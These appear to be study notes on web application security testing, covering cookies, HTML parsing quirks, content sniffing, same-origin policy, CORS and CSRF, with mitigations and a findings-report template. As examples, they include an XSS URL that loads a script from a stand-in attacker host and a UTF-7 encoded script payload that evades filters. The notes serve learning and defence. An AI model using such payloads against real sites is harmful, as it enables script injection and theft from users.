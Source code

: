 <h3> Must-Have Tools </h3>
Burp Proxy but free works fine
	Allows us to watch all HTTP(S) communications, intercept and modify requests, and replay existing requests

Firefox
	Allows anyone to set proxy settings specifically in the browser, rather than setting them system-wide

Breaker mindset
	Here to break things before anyone else can, so that vulnerabilities can be fixed before actual attackers can get to them and in order to do so we need to understand how attackers operate, what their goals are, and how they think
	Need to understand what an application is doing and why it's doing it
	Attackers will always have an advantage over defenders

Attacker Goals 	
	When assessing an application, find every bit of functionality. Once you have a rough list of all the bits try to find an attacking goal. For example say you want credit card numbers from an e-commerce site; maybe I'd want to destroy or falsify data in a server monitoring application 

Prioritization 
	Need to rank areas of the application in terms of payoff: if I compromise area X, does that give me low-value or high-value information? What if I did Y? 
	When possible asking developers "What keeps you up at night?" will often point to areas to check

Findings 
	Reports should be as follows
	Title -- E.g. "Reflected Cross-Site Scripting in profiles"
	Severity 
	Description -- Brief description of what the vulnerability is 
	Reproduction Steps -- Brief description of how to reproduce the bug; preferably with a small proof of concept 
	Impact -- What can be done with the vulnerability?
	Mitigation -- How is it fixed?
	Affected assets -- Generally a list of affected URLs

Severity
	Base it on difficulty of exploitation and potential business impact
	Informational - Issue has no real impact
	Low - The business impact is minimal
	Medium - Potential to cause harm to users, but not revealing data
	High - Potential to reveal user data or aids in exploitation of other vulnerabilities 
	Critical - High risk of personal/confidential data exposure, general system compromise, and other severe impacts to the business.

HTTP Requests 
	Basic format as follows:
``` html
		VERB /resource/locater HTTP/1.1
		Header1: Value1
		Header2: Value 2
		...
		<Body of request>
```

Request Headers
	Host: Indicates the desired host handling the request 
	Accept: Indicates what MIME type(s) are accepted by the client; often used to specify JSON or XML output for webservices
	Cookie: Passes cookie data to the server
	Referrer: Page loading to this request (not passed to other servers when using HTTPS on the origin)
	Authorization: Used for 'basic auth' pages (mainly). Takes the form "Basic <base64'd username:password>"

Cookies
	Key-value pairs of data that are sent from the server and reside on the client for a fixed period of time.
	Each cookie has a domain pattern that it applies to and they're passed with each request the client makes to matching hosts.

Cookie Security
	Cookies added for .example.com can be read by any subdomain of example.com
	Cookies added for a subdomain can only be read in that subdomain and its subdomains 
	A subdomain can set cookies for its own subdomains and parent, but it can't set cookies for sibling domains.
	E.g. test.example.com can't set cookies on test2.example.com, but can set them on example.com and foo.test.example.com
	Two important flags to know for cookies 
		Secure: The cookies will only be accessible to HTTPS pages
		HTTPOnly: The cookie cannot be read by JavaScript 

# HTML

Parsing 
	HTML should be parsed according to the relevant spec, generally HTML5 now
	Often not parsed by your browser but also Web-Application Firewalls and other filters.
	Whenever there's a discrepancy in how these two items parse things, there's probably a vulnerability 
	Example:
		You can go to https://example.com/vulnerable?name=<script/xss%20src=http://evilsite.com/my.js> and it generates
		![[Pasted image 20240325211333.png]]
		A bad XSS filter on the web application may not see that as a script tag due to it being a 'script/xss' tag. But Firefox's HTML parser, for instance, will treat the slash as whitespace, enabling the attack.
Legacy Parsing 
	Due to decades of bad HTML, browsers are quite excellent at cleaning up after authors, and these conditions are often exploitable 
	- '`<script>` tag on its own will automatically be closed at the end of the page

# Content Sniffing

MIME Sniffing
	The browser will often not just look at the content-type header that the server is passing, but also the contents of the page. If it looks enough like HTML, it'll be parsed as HTML which led to IE 6/7-era bugs where image and text files containing HTML tags would execute as HTML
	Imagine a site with a file upload function for profile pictures. 
	If that file contains enough HTML to trigger the sniffing heuristics, an attacker could upload a picture and then link it to victims.
	This is one of the reasons why Facebook and other sites use a separate domain to host such content.
Encoding Sniffing
	Similarly, the encoding used on a document will be sniffed by (mainly older) browsers.
	If you don't specify an encoding for an HMTL document, the browser will apply heuristics to determine it.
	If you are able to control the way the browser decodes text, you may be to alter the passing
	A good example is putting UTF-7 text into XSS payloads
	Consider the payload:
	+ADw-script+AD4-alert(1);+ADw-/script+AD4-
	This will go cleanly through HTML encoding, as there are no 'unsafe' characters
	IE8 and below, along with a host of other older browsers, will see this in a page as UTF-7 and switch the parsing over enabling the attack to succeed.

# Same-Origin Policy

What is SOP?
	Same-Origin Policy (SOP) is how the browser restricts a number of security-critical features:
	- What domains you can contact via XMLHttpRequest
	- Access to the DOM across separate frames/windows
Origin Matching
	The way origin matching for SOP works is much more strict than cookies:
	-Protocol must match -- no crossing HTTP/HTTPS boundaries
	- Port numbers must match 
	- Domain names must be an exact match -- no wildcarding or subdomain walking 
SOP Loosening
	It's possible for developers to loosen the grip that SOP has on their communications, by changing document.domain, posting messages between windows, and by using CORS.
	All of these open up interesting avenues for attack. 
	Anyone can call postMessage into an Iframe -- how many pages validate messages properly?
CORS
	CORS is still very new, but enables some very risky situations. In essence, you're allowed to make XMLHttpRequests to domains outside of your origin, but they have special headers to signify where the request originates, what custom headers are added, etc.
	It's possible to even have it pass the receiving domain's cookies, allowing attackers to potentially compromise logged-in users. The security prospects here are still largely unexplored 

# Cross-Site Request Forgery

What is CSRF?
	Cross-Site Request Forgery is when an attacker tricks a victim into going to a page controlled by the attacker, which then submits data to the target site as the victim.
	It is one of the most common vulnerabilities today, and enables a whole host of others, namely rXSS
Unknown Origin
	When the server gets such a transfer request from the client, how can it tell that it actually came from the real site? Referrer headers are unreliable at best.
	Here we can see an automatic exploit that will transfer money if the user is logged in.
Mitigation
	Clearly, we need a way for the server to know for sure that the request has originated on its own page
	The best way to mitigate this bug is through the use of CSRF tokens. These are random tokens tied to a user's session, which you embed in each form that you generate.
	When the server gets a POST request, it should check to see that the CSRF token is present and matches the token associated with the user's session.
	Note that this will not help you with GET requests typically, but applications should not be changing state with GET requests anyway.
How not to mitigate 
	I've seen a number of sites implement "dynamic CSRF-proof forms". They had csrf.js file that sends back code roughly equivalent to: $csrf='session CSRF token'; 
	On each page, they had `<script src="/csrf.js"`and then baked the CSRF token into the forms from there.

# Review
- Cookie domain Scooping is often a source of trouble 
- Same-Origin Policy is strict, but complex enough to be a frequent source of headaches for defenders and attackers alike
- Cross-Site Request Forgery is when an attacker tricks a victim into going to a page that triggers requests on other sites
	- Use CSRF tokens!

